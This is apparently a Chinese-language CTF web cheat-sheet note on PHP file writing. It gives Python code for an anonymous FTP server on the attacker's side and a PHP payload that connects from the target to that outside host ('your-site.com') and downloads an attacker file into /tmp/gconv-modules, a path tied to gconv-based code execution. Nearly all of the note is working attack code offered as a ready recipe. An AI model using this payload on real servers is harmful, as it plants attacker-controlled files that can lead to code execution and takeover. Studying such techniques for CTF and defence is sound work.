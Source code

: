 tags:: CTFWEB/PHP/文件写入

- # 准备
	- pip安装pyftpdlib,创建一个main.py(内容如下)，然后在同级创建ftp文件夹，里面放你的文件
	- 然后，启动！
	- ```python
	  import os
	  from pyftpdlib import servers
	  from pyftpdlib.handlers import FTPHandler
	  from pyftpdlib.authorizers import DummyAuthorizer
	  
	  def run_ftp_server():
	      # 创建一个虚拟用户并设置密码和路径
	      authorizer = DummyAuthorizer()
	      authorizer.add_anonymous("./ftp/")
	  
	      # 实例化FTP处理程序并配置它
	      handler = FTPHandler
	      handler.passive_ports = range(3005, 3010)
	      handler.authorizer = authorizer
	  
	      # 配置服务器接口和端口
	      server = servers.FTPServer(("0.0.0.0", 3002), handler)
	  
	      # 开启服务器
	      server.serve_forever()
	  
	  run_ftp_server()
	  ```
- # 使用
	- 多汁的PHP payload
		- ```php
		  
		  $ftp_server = 'your-site.com';
		  $ftp_port = 3002;
		  $ftp = ftp_connect($ftp_server, $ftp_port);
		  
		  if (!$ftp) {
		      echo "无法连接到FTP服务器";
		      exit;
		  }
		  
		  $login = ftp_login($ftp, 'anonymous', '');
		  if (!$login) {
		      echo "登录FTP服务器失败";
		      exit;
		  }
		  
		  $local_file = '/tmp/gconv-modules'; # 目标地址
		  $server_file = 'gconv-modules'; # 服务器上的地址
		  
		  ftp_pasv($ftp, 1);
		  @unlink($server_file);
		  if (ftp_get($ftp, $local_file, $server_file, FTP_BINARY)) {
		      echo "文件成功下载到 $local_file ";
		  } else {
		      echo "下载文件失败";
		  }
		  
		  ftp_close($ftp);
		  
		  ```